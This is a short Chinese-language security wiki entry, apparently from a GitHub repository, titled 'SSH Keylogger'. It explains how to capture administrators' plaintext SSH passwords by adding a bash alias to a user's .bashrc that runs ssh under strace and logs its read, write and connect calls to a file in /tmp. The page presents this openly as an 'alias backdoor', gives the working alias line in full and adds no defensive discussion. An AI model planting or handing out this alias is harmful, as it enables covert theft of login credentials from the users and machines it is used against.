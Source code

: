 # SSH Keylogger

利用strace系统调试工具获取ssh的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的.bashrc里新建一条alias、这样可以抓取他登陆其他机器的ssh密码。算是alias后门。后面会在讲一下alias后门。

```bash
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'

```

![](images/security_wiki/15905488126290.png)

![](images/security_wiki/15905488168432.png)


